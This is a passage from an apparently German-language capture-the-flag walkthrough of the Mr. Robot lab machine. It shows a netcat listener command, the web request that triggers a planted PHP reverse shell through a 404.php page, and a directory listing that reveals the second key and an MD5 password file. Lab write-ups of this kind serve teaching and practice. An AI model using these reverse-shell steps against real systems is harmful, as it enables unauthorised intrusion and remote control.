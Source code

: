 {{< alert >}}
**Hinweis:** Achten Sie auf die IP-Adresse im Code; hier haben wir die lokale IP-Adresse, dh. Die IP-Adresse unseres Computers. Wir können die lokale IP-Adresse mit `ifconfig` überprüfen.
{{< /alert >}}

### PHP reverse shell über netcat

Nachdem wir die IP-Adresse im Skript ersetzt und geändert haben, führen wir **Netcat** auf dem Port aus, der über das Skript eine Verbindung zu uns herstellt. Das machen wir mit folgendem Befehl:

> ```shell
> nc -nlvp 1234
> ```

Danach müssen wir im Webbrowser auf die **http://IP_ADRESSE/404.php** diesen Link gehen.

<p align="center">
   <img width="100%" src="7.webp" />
</p>

Wie wir sehen können, haben wir die Shell im Terminal geöffnet. Netcat bekam die Verbindung.

Wir werden nun prüfen, welche Dateien sich im Verzeichnis **/home/robot** befinden. Das machen wir mit dem Befehl:

> ```shell
> ls -l /home/robot
> ```

Wir kennen jetzt die Position des zweiten Schlüssels:

> ```shell
> $ ls -l /home/robot
> total 8
> -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
> -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
> ```
